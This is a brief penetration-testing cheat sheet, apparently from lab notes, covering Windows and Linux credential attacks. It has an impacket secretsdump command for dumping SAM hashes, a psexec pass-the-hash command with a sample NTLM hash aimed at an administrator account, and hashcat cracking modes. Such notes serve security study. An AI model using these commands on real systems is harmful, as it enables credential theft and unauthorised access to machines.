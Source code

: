 # Windows
These attacks can be involved in [[Windows Escalation Techniques]]

We need a copy of system.hive and sam.hive registry to dump hashes
## Dumping SAM hashes
```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

## Pass-the-Hash
```bash
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
```

# Linux
`hashid` or `hash-identifier` can be used to identify unknown hash types

## Hashcat
`-a 0` is straight attack
`-a 3` is brute force

### Common hashes
| Hash Mode | Description |
| --------- | ----------- |
| `-m 0`    | MD5         |
| `-m 100`  | SHA-1       |
| `-m 1000` | NTLM        |
| `-m 5600` | NetNTLMv2   |
